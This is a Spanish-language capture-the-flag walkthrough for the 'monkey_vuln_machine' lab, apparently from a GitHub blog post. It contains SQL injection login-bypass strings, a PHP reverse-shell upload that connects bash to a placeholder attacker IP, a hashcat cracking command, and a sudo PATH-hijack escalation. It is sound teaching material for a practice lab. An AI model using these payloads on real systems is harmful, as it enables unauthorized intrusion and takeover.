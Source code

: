 ```yaml
---
layout: /src/layouts/MDLayout.astro
<<<<<<< HEAD
title: Cómo resolver monkey vuln machine
=======
title: Cómo resolver monkey_vuln_machine
>>>>>>> 2332d83 (Version 0.1.0)
description: Learn how to solve a CTF machine in this post. Discover how to perform a login bypass, decrypt hashes, escalate privileges, and more.
---
```

**Es importante tener en cuenta que el siguiente post contiene spoilers y revela la solución a una máquina de CTF. Si aún no has resuelto la máquina y quieres hacerlo por ti mismo, te recomendamos que no sigas leyendo. ¡Buena suerte resolviendo la máquina!**

https://github.com/wanetty/monkey_vuln_machine

En los eventos de CTF, los participantes tienen como objetivo encontrar vulnerabilidades en sistemas y aplicaciones para obtener acceso no autorizado y, en última instancia, encontrar la "bandera" o la respuesta a un desafío en particular. En este post, veremos cómo resolver una máquina de CTF siguiendo una serie de pasos.

## Bypass de login

En primer lugar, intentaremos acceder a la aplicación utilizando una técnica de "Bypass de login". Para ello, se pueden utilizar las siguientes inyecciones de SQL:


```bash
test ' or 1 = 1 --  test 
' or 'a' = 'a' --
```

Estas inyecciones explotan una vulnerabilidad en el código de la aplicación y permiten acceder sin necesidad de proporcionar las credenciales correctas.

## Subida de ficheros

Una vez dentro de la aplicación, podemos aprovechar una vulnerabilidad de subida de ficheros para subir un archivo que nos permita establecer una conexión de "Reverse Shell". Para ello, podemos utilizar un archivo PHP con el siguiente contenido:

```php
<?php     
	exec("/bin/bash -c 'bash -i >& /dev/tcp/IP_DEL_ATACANTE/PUERTO 0>&1'"); 
?>
```

Debemos sustituir "IP_DEL_ATACANTE" y "PUERTO" con nuestra propia dirección IP y un puerto que esté disponible para la conexión.

## Conexión base de datos

Una vez que hemos conseguido una Reverse Shell, podemos buscar las credenciales de conexión a la base de datos en el código de la aplicación. En este caso, encontramos las credenciales en el archivo `login.php`.

Utilizamos las credenciales para conectarnos a la base de datos mediante el siguiente comando:

```bash
mysql -h mariadb -u Threepwood -pmonkeyisland user_db
```

## Descifrando hashes

Dentro de la base de datos encontramos un archivo de hashes. Para descifrarlos, podemos utilizar la herramienta `hashcat` y una lista de palabras comunes. El comando para descifrar los hashes en el archivo `hashes.txt` utilizando la lista de palabras `rockyou.txt` sería:

```bash
hashcat -m 0 hashes.txt /usr/share/wordlist/rockyou.txt
```

## Escalada de privilegios

Finalmente, para escalar nuestros privilegios, buscamos en el sistema algún comando que podamos ejecutar con permisos de super usuario. En este caso, encontramos un script llamado `find_chest.sh` que se puede ejecutar como super usuario sin necesidad de introducir una contraseña. Además, este script utiliza la variable `cat` de forma relativa, lo que significa que podemos manipular la variable `$PATH` para ejecutar cualquier comando con permisos de super usuario. Para ello, ejecutamos el siguiente comando:
```bash
sudo PATH=$(pwd):$PATH /home/Guybrush/find_chest.sh
```

Con esto, conseguimos ejecutar el comando que queramos con permisos de super usuario, lo que nos permite completar el desafío.




